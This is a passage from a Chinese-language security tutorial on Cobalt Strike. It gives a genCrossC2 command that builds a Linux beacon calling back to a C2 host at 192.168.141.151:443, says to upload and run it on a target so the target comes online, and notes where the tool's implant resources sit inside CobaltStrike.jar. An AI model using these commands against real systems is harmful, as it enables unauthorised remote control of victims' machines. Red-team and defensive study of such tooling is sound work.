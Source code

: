 也可以用命令
```
genCrossC2.Win.exe 192.168.141.151 443 ./.cobaltstrike.beacon_keys null Linux x64 test
```

上传 test 文件至目标,加权限运行,目标上线

![](../../../assets/img/Security/安全工具/CobaltStrike/58.png)

参考文章
- https://0x20h.com/p/c02f.html
- https://www.cnblogs.com/micr067/p/13311206.html

---

## CS样本

目录中有一个 CobaltStrike.jar 文件，直接解压，这里面有一个名为 resources 的文件夹，就是 CobaltStrike 的配置信息，我们在 CobaltStrike 控制台生成的木马都来源于这个文件夹。

